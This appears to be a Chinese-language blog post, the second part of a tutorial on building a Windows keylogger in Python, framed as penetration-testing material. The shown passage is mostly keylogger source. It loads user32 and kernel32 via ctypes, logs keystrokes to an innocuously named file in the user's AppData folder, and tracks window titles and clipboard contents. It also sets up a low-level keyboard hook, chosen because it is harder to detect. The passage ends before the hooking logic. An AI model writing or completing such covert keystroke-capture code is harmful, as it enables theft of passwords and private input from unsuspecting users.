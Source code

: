 ```yaml
---
title: 建立键盘记录器part2
description: 使用python编写键盘记录器.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


## 一、加载库，初始化变量

加载 `user32.dll` 和`kernel32.dll`，设置日志记录并创建变量以保存文本，窗口标题和按下的键。

```python
from ctypes import *
from ctypes.wintypes import DWORD, LPARAM, WPARAM, MSG
import logging
import os

logging.basicConfig(filename=(os.environ['localappdata'] +"\\" + 'applog.txt'), level=logging.DEBUG, format='%(message)s')

#加载所需库
user32 = windll.user32
kernel32 = windll.kernel32


current_window = None   # 窗口标题
current_clipboard = []  # 剪贴板内容
last_key = None         # 最后一个按键
line = ""               # 点击的键盘字符行
```

我们要利用钩子函数`SetWindowsHookExa`，`UnhookWindowsHookEx`和`CallNextHookEx`还需要一个类用作数据结构，以保存来自KBDLLHOOKSTRUCT结构的键盘输入事件中的数据。
我们先声明一些常量，以后调用WinAPI函数时使用。

```python
WH_KEYBOARD_LL = 13     # 键盘钩子用于SetWindowsExa
WM_KEYDOWN = 0x0100
HC_ACTION = 0
```

`SetWindowsHookExa`需要知道它必须设置什么类型的钩子，我们使用`WH_KEYBOARD_LL`( 用来对底层的键盘输入事件进行监视，详情参见[https://docs.microsoft.com/zh-cn/windows/win32/winmsg/about-hooks?redirectedfrom=MSDN](https://docs.microsoft.com/zh-cn/windows/win32/winmsg/about-hooks?redirectedfrom=MSDN))因为它不需要在进程中注入DLL，较难捕获。WM_KEYDOWN告诉我们何时按下非系统键。GC_ACTION是传递给KeyboardProc回调函数的参数

## 二、使用虚拟键检测按下的特殊键
